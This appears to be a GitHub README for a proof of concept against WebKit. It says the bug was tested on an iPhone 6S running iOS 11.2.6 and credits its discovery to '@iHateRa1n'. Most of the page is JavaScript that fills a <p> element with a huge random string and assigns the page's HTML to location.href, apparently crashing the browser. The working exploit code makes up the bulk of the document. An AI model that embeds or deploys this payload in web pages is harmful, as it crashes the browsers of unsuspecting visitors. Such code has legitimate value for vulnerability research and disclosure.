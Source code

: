 # WebKit jump to address 0 via DOM nodes + location.href

WebKit has a new vulnerability; and it has been tested on the iPhone 6S (iOS 11.2.6). 

It works by appending a large <p> tag to the DOM, then flowing the data into location.href. 

PoC (@iHateRa1n):

```javascript
function rndchr(){
    return String.fromCharCode(Math.floor(Math.random()*255));
};
n=1024;
k=document.createElement("p");
l=0;
kl="";
while(l<n){
    kl=kl+rndchr();
    l++;
}
s=document.createTextNode((kl).repeat(16384));
k.appendChild(s);
document.body.appendChild(k);
location.href=document.body.innerHTML;
```

discovered and exploited by @iHateRa1n. 
